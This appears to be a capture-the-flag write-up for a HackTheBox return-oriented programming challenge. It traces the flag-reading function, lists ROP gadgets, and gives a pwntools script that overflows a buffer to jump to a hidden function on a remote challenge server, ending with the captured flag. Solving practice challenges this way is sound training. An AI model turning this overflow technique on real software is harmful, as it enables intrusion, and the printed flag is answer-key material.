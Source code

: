 ```yaml
---
created: 2024-07-17T02:27
updated: 2024-08-04T19:33
tags:
  - rop
solves: 65
points: 975
---
```


We can trace where `flag.txt` is being read with xrefs.
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1721197843/2024/07/e62b4570083b8286b45a72507f1b0359.png)

We have to jump to `0x00401255` `escape_plan`.

Reading `main`.

```cpp
iVar1 = strncmp(s1, "69", 2);
if (iVar1 != 0) {
	iVar1 = strncmp(s1, "069", 3);
	if (iVar1 != 0) goto code_r0x004015da;
}
```

Using `ROPgadget` to get the ret addresses.

```
Gadgets information
============================================================
0x0000000000401016 : ret
0x0000000000401112 : ret 0x2e

Unique gadgets found: 2
```

## Solve Script

Payload is `'A' * N + RET + 0x00401255`.

```python
from pwn import *
context.log_level = 'error'

for i in range(100):
    if i % 100 == 0:
        print(i)
    conn = remote("94.237.53.113", 52654)
    conn.recvuntil(b'>> ')
    conn.sendline(b'069')
    conn.recvuntil(b'>> ')
    conn.sendline(b'A'*i+p64(0x401016)+p32(0x00401255))
    data = conn.recvall()
    conn.close()
    if data != b'\n\x1b[1;31m[-] YOU FAILED TO ESCAPE!\n\n' and data != b'':
        print('\n', i, data)
    print('.', end='', flush=True)
    i += 1
# HTB{3sc4p3_fr0m_4b0v3}
```
